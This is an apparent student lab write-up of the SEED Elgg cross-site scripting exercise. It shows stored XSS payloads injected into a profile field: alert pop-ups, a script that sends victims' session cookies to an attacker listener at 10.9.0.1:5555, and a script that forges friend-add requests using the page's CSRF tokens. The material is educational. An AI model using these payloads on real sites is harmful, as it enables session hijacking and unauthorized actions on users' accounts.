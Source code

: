 # Week #10: Web XSS Elgg

## Task #1: Posting a Malicious Message to Display an Alert Window
The objective of this task is to show anyone who enters our profile a pop-up. In order to do this, we need to input our script into the vulnerable form so that it will run whenever the user's profile is loaded.

```html
<script>alert("XSS");</script>
```

|             ![](./images/logbook10/task1-01.png)             |
| :----------------------------------------------------------: |
| *Figure 1: Modifying the vulnerable form in the edit profile page to show the alert to anyone who views the malicious user page.* |

| ![](./images/logbook10/task1-02.png)                         |
| ------------------------------------------------------------ |
| *Figure 2 : Pop-up resulting from opening the malicious user profile page* |

We can also achieve the same effect by we could store the javascript code in a standalone file and then refer to it by using the source tag using the following piece of code where http://www.example.com is the website with the file.

```html
<script type="text/javascript"
src="http://www.example.com/myscripts.js">
</script>
```

## Task #2: Posting a Malicious Message to Display Cookies

The objective of this task is to show anyone who enters our profile a pop-up with the content of the cookies. In order to do this, we need to input our script into the vulnerable form so that it will run whenever the user's profile is loaded and access the cookies so they are printed in the alert.

```html
<script>alert(document.cookie);</script>
```

|             ![](./images/logbook10/task2-01.png)             |
| :----------------------------------------------------------: |
| *Figure 3: Modifying the vulnerable form in the edit profile page to show the alert to anyone who views the malicious user page.* |

| ![](./images/logbook10/task2-02.png)                         |
| ------------------------------------------------------------ |
| *Figure 4 : Pop-up with cookies resulting from opening the malicious user profile page* |

## Task #3: Stealing Cookies from the Victim's Machine

In this task we want to retrieve the authentication cookie of the victim whenever a user views a malicious user page. In order to do so we input a script in the vulnerable form that'll insert an image once the malicious page is loaded resulting in a HTTP GET request to retrieve said image from the src defined by the attacker/us. The src is, commonly, a TCP server controlled by the attacker, plus the cookie of the victim.

```html
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >'); </script>
```

|             ![](./images/logbook10/task3-01.png)             |
| :----------------------------------------------------------: |
| *Figure 5: Modifying the vulnerable form in the edit profile page to inject anyone who views the malicious user page.* |

| ![](./images/logbook10/task3-02.png)                         |
| ------------------------------------------------------------ |
| *Figure 6: Opening the TCP server that listend for the HTTP GET request sent by the script in the malicious user page, and retrieving the cookie of the authenticated user, in this case, Alice* |

## Task #4: Becoming the Victim’s Friend

In this task we want to add  Samy as a friend to any other user that visits Samy’s page. We will then write a malicious Javascript program  forges HTTP requests from the victim’s browser without the the attacker's direct intervention.

Using another account and checking the request to add Samy, we discovered the following URL:

| ![](./images/logbook10/task4-01.png)                         |
| :----------------------------------------------------------: |
| *Figure 7: Request URL from adding Samy as a friend.* |

To create our script we used the code sample provided to us and changed it so that when Samy's account was visited a friend request http request was made.

```html
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token;
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

| ![](./images/logbook10/task4-02.png)                         |
| :----------------------------------------------------------: |
| *Figure 8: Malicious code written onto the "About Me" field.* |

| ![](./images/logbook10/task4-03.png)                         |
| :----------------------------------------------------------: |
| *Figure 9: User profile before visiting Samy's account.* |

| ![](./images/logbook10/task4-04.png)                         |
| :----------------------------------------------------------: |
| *Figure 10: User visiting Samy's account without adding as friend.* |

| ![](./images/logbook10/task4-05.png)                         |
| :----------------------------------------------------------: |
| *Figure 11: User after visiting Samy's account.* |

<br>

###### Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?
A: These lines are needed because these tokens are used in the HTTP request sent.
###### Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
A: No, because unless the code is written in Text mode, the browser will not attempt to execute it, and will just display it as regular text.

